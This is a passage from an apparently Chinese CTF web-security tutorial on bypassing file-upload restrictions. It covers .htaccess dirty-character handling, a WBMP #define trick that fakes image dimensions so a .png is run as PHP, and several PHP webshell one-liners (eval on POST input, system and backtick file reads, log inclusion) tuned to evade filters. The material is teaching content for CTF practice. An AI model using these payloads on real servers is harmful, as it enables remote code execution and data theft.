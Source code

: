 ### 绕过脏字符

上面的 [XNUCA2019Qualifier]EasyPHP 这道题目已经涉及到了。即有时候，题目会在我们上传或写入的文件中加入一个混乱的字符（脏字符），由于这些字符不是 .htaccess 文件的语法或指令，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的 .htaccess 文件生效，我们要采用 # 对脏字符进行注释，或使用反斜杠 \ 将换行符转义成普通字符。

### 绕过对上传图片的尺寸限制

有时候，在图片上传区会使用 getimagesize() 等函数对上传的图片进行尺寸限制，只允许上传指定大小尺寸的图片，并且会使用 exif_imagetype() 函数读取第一个字节并检查其图片类型。此时如果可以上传 .htaccess 来解析图片的话我们还需要让 .htaccess 的尺寸和经过 exif_imagetype() 检测后的结果符合题目要求。

我们可以使用 exif_imagetype() 函数支持的 WBMP 图像类型进行绕过。WBMP（Wireless Bitmap）是一种移动计算机设备使用的标准图像格式，是一种纯文本二进制图像格式的图片，实例如下：

```php
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

可以看到 WBMP 图像的开头可以使用 # 设置图像的尺寸大小，这正符合我们的要求。所以假设题目限制我们上传的图片尺寸必须为1337×1337，那么我们在上传.htaccess时便可以用 WBMP 来绕过，例如：

```php
#define width 1337
#define height 1337
AddType application/x-httpd-php images.png
```





### 例题篇

[Insomnihack Teaser 2019 Web]l33t-hoster

[SUCTF 2019]EasyWeb


 


 

# 文件上传内容匹配绕过

## 简单的字符绕过

```python
<?=eval($_POST{1});?>
<?=system('tac ../f*')?>  //过滤了[]、php
<?=`tac ../f*`?>   //过滤括号
<?=include"var/lo"."g/nginx/access.lo"."g"?>  //过滤了php，执行函数，反引号等，日志包含，拼接绕过
```
